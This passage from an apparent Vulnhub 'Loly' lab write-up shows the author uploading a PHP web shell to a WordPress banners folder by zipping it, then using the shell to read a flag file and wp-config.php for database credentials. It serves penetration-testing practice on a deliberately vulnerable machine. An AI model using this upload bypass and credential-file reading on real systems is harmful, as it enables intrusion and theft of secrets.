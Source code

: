 I was struggling to upload the php file so I seen the .zip extension so I zipped the shell.php file into shell.zip file and uploaded it then I loaded this URL →

```bash
http://loly.lc/wordpress/wp-content/banners/shell.php
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Loly/Untitled%207.png)

---

## SHELL ➡️

Now lets dig deeper into this local privileged shell →

```bash
www-data@ubuntu:~$ cat local.txt
cat local.txt
1202a2f217f0453838ce4169bbd4dd79
www-data@ubuntu:~$
```
{: .nolineno}
{: .nolineno}

Now lets see the wp-config.php file which contains credentials →

```bash
www-data@ubuntu:~/html/wordpress$ cat wp-config	
cat wp-config.php 
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You do not have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */
```